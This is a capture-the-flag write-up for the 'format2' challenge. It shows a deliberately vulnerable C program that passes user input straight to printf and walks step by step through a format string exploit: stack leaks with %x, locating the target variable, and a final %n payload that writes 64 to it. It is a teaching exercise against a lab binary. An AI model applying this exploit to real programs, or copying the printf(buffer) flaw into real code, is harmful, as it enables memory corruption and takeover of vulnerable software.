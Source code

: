 ```yaml
---
title:  "format2 Writeup"
date:   2019-04-01 15:26:00
categories: writeup 
layout: post
author: Ioannis Kyriazis
---
```


In order to attempt this binary, you should be familiar with the stack. You should know what the stack looks like, and how it works. You should also understand the concept of memory addresses, how data is stored in variables, and how to access those variables.


Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];
  char flagBuffer[64];
  FILE *fp;

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  fp = fopen("./flag.txt", "r");

  if(target == 64) {
      printf("you have modified the target :)\n");

      fgets(flagBuffer, 64, (FILE*)fp);
      printf("flag: %s\n", flagBuffer);
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### Objective: Modify the target variable to equal 64 ###

format2.c uses fgets to receive 512 bytes from stdin. This prevents buffer overflows because fgets stops once it receives 512 bytes. What else can we try? If we look at `printf(buffer)` we can see that it prints whatever you supply to stdin without checking your string. What do you think would happen if you entered `%x %x %x`?

.

.

.

It would print out the hex values of whatever is on the stack. Since `%x` expects a parameter and parameters are stored on the stack it will just print the next value on the stack. So what? How will that help us change the value of `target`? Well, the `%n` format specifier is used to write the amount of printed characters into printf's corresponding parameter. For example, 

`printf("hi my name is %s%n", name, &len)` 

would put the value `14 + strlen(name)` into the variable `len`

With this information we can put the address of `target` on the stack and then write to it using the `%n` format specifier. How do we put the address of target onto the stack? First, we need to get its address. We can find it by running `objdump -t format2` in the format2r directory. Then we look for `target`. I found this line

`0804a048 g     O .bss   00000004              target` 

Aha! The address of target is `0x0804a048`! What can we do with it? We can put it on the stack and write to it with the `%n` format specifier! An easy way to put the address of `target` on the stack is to just put it in your exploit string. Before we do that though, we can make it easier on ourselves by using `aaaa` as the address we want to write to. This is better because it is easier to recognize `0x61616161` than `0x0804a048` in a sea of hex numbers. So now our python script that prints our exploit string should look like `python -c "print('aaaa' + '%x '*100)"`. This will put `0x61616161` on the stack and will print out the contents of the stack. Let's find our a's. 

`aaaa200 f7f3d580 f7f74000 f7f41f74 0 4c f7d68e88 0 0 0 0 0 0 0 f7f8a1b7 f7f43000 2cfba f7f867c9 f7f9cfb4 bee2a90c f7f8a186 0 61616161 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 804000a ff9422a4 
target is 0 :(`

As we can see, aaaa is printed at the beginning. This is because it is part of our string. Our string of a's is also printed again in hex. It is the 23rd element on the stack. We can select it specifically with the `$` addition to the format specifier. So `printf("aaaa%23$x")` should print out `aaaa0x61616161`. Your python script should now look like `python -c "print('aaaa' + '%23\$x')`. We need to include the `\` because it escapes the `$` character. Now if you run format2 with your exploit string you should get 

`aaaa61616161
target is 0 :(`

Now that we have isolated the address, let's replace it with the actual address of `target` instead of `0x61616161`. Our python script should look like `python -c "print('\x48\xa0\x04\x08' + '%23\$x')"`. If we run the program with that output we should get

`aaaa0804a048
target is 0 :(`

Let's write-what-where! Instead of `%x`, we'll use `%n` to actually write to `target`'s value. Simply replacing the x with an n, the output of the program changes to 

`H
target is 4 :(`
(If you are getting a segfault here, make sure that you are using python2)

We modified `target`!  However, we're not done yet.  How do we change the value to 64? Simply add 60 bytes of padding. 
`python -c "print('\x48\xa0\x04\x08' + '%60x' + '%23\$n')"`
Viola! You have modified the target :)
